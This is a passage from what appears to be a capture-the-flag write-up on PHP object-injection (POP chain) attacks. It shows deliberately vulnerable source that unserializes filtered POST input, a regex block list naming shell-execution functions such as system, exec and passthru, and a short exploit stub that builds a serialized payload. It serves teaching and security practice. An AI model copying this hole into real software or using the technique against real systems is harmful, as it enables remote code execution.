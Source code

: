```php
    public $func;
    public function __call($method,$args)
    {
        call_user_func($this->func,'welcome');
    }
}

class R
{
    private $method;
    private $args;

    public  function welcome()
    {
        if ($this->key === true && $this->finish1->name) {
            if ($this->finish->finish) {
                call_user_func_array($this->method,$this->args);
            }
        }
    }
}

function nonono($a){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|system|eval|flag/i";
    return preg_replace($filter,'',$a);
}

$a = $_POST["pop"];
if (isset($a)){
    unserialize(nonono($a));
}
?>
```

exp
```php
$h = new h();
$h->username = new Hacker();
echo(urlencode(serialize($h)));
```

![](attachments/Pasted%20image%2020231104100602.png)
